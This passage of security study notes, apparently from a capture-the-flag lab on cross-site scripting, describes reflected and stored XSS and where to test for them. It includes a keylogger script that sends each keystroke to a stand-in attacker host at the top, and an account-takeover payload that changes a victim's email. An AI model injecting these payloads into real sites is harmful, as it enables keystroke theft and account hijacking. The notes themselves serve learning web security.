 Key logger

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business logic

For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

```
<script>user.changeEmail('attacker@hacker.thm');</script>
```

**Reflected XSS**

Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Test every possible point of entry; these include:

Parameters in the URL Query String URL File Path Sometimes HTTP Headers (although unlikely exploitable in practice)

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.

![](2022-02-12-11-50-13.png)

![](2022-02-12-11-50-18.png)

The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.

![](2022-02-12-11-50-39.png)

![](2022-02-12-11-50-44.png)

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

**Stored XSS**

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

Test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

Comments on a blog User profile information Website Listings

**Dom Based XSS**
